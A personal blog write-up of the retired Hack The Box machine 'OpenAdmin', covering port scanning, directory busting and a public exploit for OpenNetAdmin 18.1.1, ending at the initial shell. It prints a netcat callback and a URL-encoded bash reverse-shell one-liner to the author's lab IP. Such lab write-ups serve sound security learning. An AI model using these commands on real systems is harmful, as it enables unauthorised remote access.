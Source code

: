 ```yaml
---
layout: post
title: "HTB: OpenAdmin"
tags: htb
---
```


OpenAdmin was ranked easy on HTB but _imo_ really should've been ranked medium. Anyway, sharing my notes on OpenAdmin since this box has been retired.

### Recce
Not much, if you do an nmap scan you'll see only ports 80 and 22.

### Port 80
Visiting port 80, you see a default Apache page.

If you dirbust, you'll likely see these first few results (wordlist: `/usr/share/wordlist/dirb/big.txt`)
```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/artwork (Status: 301)
/music (Status: 301)
/server-status (Status: 403)
/sierra (Status: 301)
```

`/artwork` gives you nothing but some landing page for 'Arcwork'.  
`/music` gives you some landing page for a music company, but if you click the 'login' button at the top, you get redirected to _completely_ different-looking site at `/ona`.

Now at this point, `/ona` looks sufficiently interesting for 2 reasons:
1. It looks really different from its parent site at `/music` - in fact it's not even a sub-directory of `/music`, with the page located at `http://openadmin.htb/ona/`.
2. There's a version number that almost literally pops right out at you - version 18.1.1. Now if you've done enough OSCP / HTB, version numbers are always a good place to start.

### Shell as www-data
Googling `ona 18.1.1 exploit` should yield you [this first result](https://www.exploit-db.com/exploits/47691).

The exploit basically gives you a shell with no feedback (as in no stdout). You can verify whether it works by triggering a callback to your machine.

Example: running the exploit to point at `http://openadmin.htb/ona/` and running a nc callback `nc -nc <ur_ip> 4444` (Note: somehow you must add a `/` at the end of the URL for this to work)
```
kali@kali:~$ ./ona.sh http://openadmin.htb/ona/
$ nc -nv 10.10.14.64 4444
```
If you had a netcat listening at 4444, you'd get a callback.

Since we want a working shell, we can throw in a line to return a shell back, like this:
```
kali@kali:~$ ./ona.sh http://openadmin.htb/ona/
$ bash -c "bash -i >%26 /dev/tcp/10.10.14.64/4444 0>%261"
```
(Note: The '&' character had to be url-encoded to '%26')
